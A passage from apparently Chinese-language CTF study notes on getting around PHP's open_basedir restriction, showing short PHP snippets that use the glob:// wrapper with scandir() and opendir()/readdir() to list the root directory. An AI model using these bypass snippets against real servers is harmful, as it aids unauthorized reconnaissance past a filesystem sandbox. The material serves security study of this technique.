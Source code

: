 当传入的参数为glob:///\*时会列出根目录下的文件，传入参数为glob://\*时会列出open_basedir允许目录下的文件。

#### scandir()+glob://

这是看TCTF WP里面的一种方法，最为简单明了: 代码如下:

```
<?php
var_dump(scandir('glob:///*'));
>
```

![img](daydayup.assets/open_basedir_6.png)

这种方法也只能列出根目录和open_basedir允许目录下的文件。

#### opendir()+readdir()+glob://

脚本如下:

```
<?php
if ( $b = opendir('glob:///*') ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

![img](daydayup.assets/open_basedir_7.png)
